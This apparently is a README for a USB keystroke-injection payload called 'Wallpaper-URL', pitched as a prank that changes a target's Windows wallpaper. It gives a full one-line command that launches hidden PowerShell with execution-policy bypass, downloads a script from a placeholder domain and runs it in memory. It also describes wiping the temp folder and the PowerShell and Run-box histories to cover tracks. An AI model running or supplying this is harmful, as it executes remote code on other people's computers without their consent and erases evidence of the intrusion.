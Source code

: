 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Wallpaper-URL

This payload will download an image from any URL and set it as the target's wallpaper. 

## Description

Use this program to troll your friends. Find any image online and grab the URL and insert it into the PS1 script. 
Run this payload and step away. Once a mouse movement is detected, their wallpaper will change right in front of their eyes.
Lastly, to clean up your tracks behind you, the tmp folder will be emptied and the PowerShell and run box history will be wiped.


## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Place your images URL in the $url variable
```
powershell -w h -NoP -NonI -Exec Bypass $url='URL-HERE';irm MYDOMAIN.HERE/pkw | iex
```

##

##